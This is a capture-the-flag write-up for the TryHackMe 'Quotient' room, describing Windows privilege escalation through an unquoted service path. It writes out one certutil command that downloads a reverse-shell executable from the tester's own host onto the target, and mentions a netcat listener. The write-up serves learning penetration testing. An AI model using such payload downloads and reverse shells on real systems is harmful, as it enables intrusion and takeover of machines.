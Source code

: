 ### Introduction
Link: https://tryhackme.com/room/quotient#
Created by: ben, JohnHammond, cmnatic, NightWolf, timtaylor
* * *
### Connecting
Pinging the IP address for this machine does not seem to resolve anything. I had to briefly look at another write-up to see if anyone else had issues. It seems RDP still works so I proceeded to simply connect to it and it worked.

<p>
  <img height="auto" src="./_resources/3cc90c64c1d1ac43d1aef70c73009f4e.png">
</p>
  
* * *
### Reconnaissance, Scanning, & Enumeration
Right away we can tell that this server is an AWS Instance being hosted in **eu-west-1b** and is a t2.medium EC2 instance. Not crucially important, but interesting to point out.

Let's see what kind of permissions we have as the user "Sage".

<p>
  <img height="auto" src="./_resources/658494285c75fb47f7e816ce2fc218a1.png">
</p>

It looks like we're not very special and only have general access.

<p>
  <img height="auto" src="./_resources/3dadeb6debd6380cdab64b97820bbbaa.png">
</p>

Let's have a look around and see what is on this computer. So far the only thing that really stands out is the folder **windows nt**. Normally the **W** would be capitalized, same with **NT**. Not sure why this was deliberately changed, but we will keep it in mind if anything else comes up.

<p>
  <img height="auto" src="./_resources/a0b61d9dd05b25eb245f52e170b292a1.png">
</p>

Nothing else stands out withing the folders, maybe we can see what services are running on the machine.

Everything looks normal except for one. It has no description and is misspelled.

<p>
  <img height="auto" src="./_resources/95562cfa26ee77ee2229ff38837c2efb.png">
</p>

Let's investigate.

<p>
  <img height="auto" src="./_resources/0ada677f68c1d969a7520527e7a983c4.png">
</p>

At this point, I was a bit stuck and not sure how to proceed. Clearly there is something about this service that is meant to be exploited. 

I am learning that it is ok to be stuck, part of PenTesting is research. You are not going to know everything for every engagement and it is important to be able to find the answers we need on an as needed basis.

With the help of Google, I came across this article which seems to fit the exact situation we are in.

**Link:** https://vk9-sec.com/privilege-escalation-unquoted-service-path-windows/#:~:text=When%20a%20service%20is%20created,of%20the%20time%20it%20is).

### Exploitation

So we are dealing with an **Unquoted Service Path**, now the name of the room makes a little more sense.

According to the article above, we should create a payload and drop it into that file path. So let's create that payload.

<p>
  <img height="auto" src="./_resources/69003b3b6fa29e0ca5cd9b402cc1815c.png">
</p>

Now we need to start a web server on our Kali machine.

<p>
  <img height="auto" src="./_resources/7eed70e4cd3a5000fb4542483de44f67.png">
</p>

And we need to download the executable from our target machine.

<p>
  <img height="auto" src="./_resources/e2c62b94d766594d957550f4eabbe889.png">
</p>

Now, we need to have the machine run that service, but we lack the permissions to start/stop them, so a reboot will be required.

But first, gotta make sure NetCat is listening.

<p>
  <img height="auto" src="./_resources/e57fff9a846ab29bc1461d3146275646.png">
</p>

Now, the wait begins...
...
...
...
...
Still nothing, maybe there is an issue with the server?
Server is back up, IP is the same, and the revshell.exe is still there. What went wrong?

Well, as it turns out, it's the name of the .exe. I did not read the article carefully and missed the part where it said that the .exe file needs to be named something similar to what is in the service path, .ie, Devservice.exe.

Let's start over real quick.

<p>
  <img height="auto" src="./_resources/d65e82940e2f358055650fc96fb76da2.png">
</p>

That's better.
Now we'll download this on the target machine.

`certutil -urlcache -split -f “http://10.13.27.44:9999/Devservice.exe” Devservice.exe`

And reboot the target machine.
Now we once again wait on NetCat.

...

Got it...

<p>
  <img height="auto" src="./_resources/f314cea54ab81f3928c495244f3b2faa.png">
</p>

* * *

### Post-Exploitation

Time to search for that flag.txt file.

And it looks like it's right on the Admin Desktop.

<p>
  <img height="auto" src="./_resources/b9983bdb900bafc38d417afd67737caa.png">
</p>

* * *

### Lessons Learned

READ!!!

I tend to skimp documentation to get to the good stuff, I was in a hurry to try out the exploit without taking my time to actually read how it works. But as they say, failure is a better teacher than success. This will be something that sticks with me.

